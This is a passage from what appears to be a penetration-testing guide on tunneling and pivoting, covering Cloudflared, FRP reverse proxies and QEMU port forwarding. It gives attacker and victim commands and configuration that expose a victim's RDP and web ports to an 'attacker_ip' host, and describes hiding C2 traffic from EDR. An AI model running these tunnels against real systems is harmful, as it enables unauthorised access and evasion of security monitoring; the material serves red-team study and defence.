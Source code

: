 Because all traffic leaves the host **outbound over 443**, Cloudflared tunnels are a simple way to bypass ingress ACLs or NAT boundaries. Be aware that the binary usually runs with elevated privileges – use containers or the `--user` flag when possible. 

## FRP (Fast Reverse Proxy)

[`frp`](https://github.com/fatedier/frp) is an actively-maintained Go reverse-proxy that supports **TCP, UDP, HTTP/S, SOCKS and P2P NAT-hole-punching**. Starting with **v0.53.0 (May 2024)** it can act as an **SSH Tunnel Gateway**, so a target host can spin up a reverse tunnel using only the stock OpenSSH client – no extra binary required.

### Classic reverse TCP tunnel

```bash
# Attacker / server
./frps -c frps.toml            # listens on 0.0.0.0:7000

# Victim
./frpc -c frpc.toml            # will expose 127.0.0.1:3389 on frps:5000

# frpc.toml
serverAddr = "attacker_ip"
serverPort = 7000

[[proxies]]
name       = "rdp"
type       = "tcp"
localIP    = "127.0.0.1"
localPort  = 3389
remotePort = 5000
```

### Using the new SSH gateway (no frpc binary)

```bash
# On frps (attacker)
sshTunnelGateway.bindPort = 2200   # add to frps.toml
./frps -c frps.toml

# On victim (OpenSSH client only)
ssh -R :80:127.0.0.1:8080 v0@attacker_ip -p 2200 tcp --proxy_name web --remote_port 9000
```

The above command publishes the victim’s port **8080** as **attacker_ip:9000** without deploying any additional tooling – ideal for living-off-the-land pivoting. 

## Covert VM-based Tunnels with QEMU

QEMU’s user-mode networking (`-netdev user`) supports an option called `hostfwd` that **binds a TCP/UDP port on the *host* and forwards it into the *guest***.  When the guest runs a full SSH daemon, the hostfwd rule gives you a disposable SSH jump box that lives entirely inside an ephemeral VM – perfect for hiding C2 traffic from EDR because all malicious activity and files stay in the virtual disk.
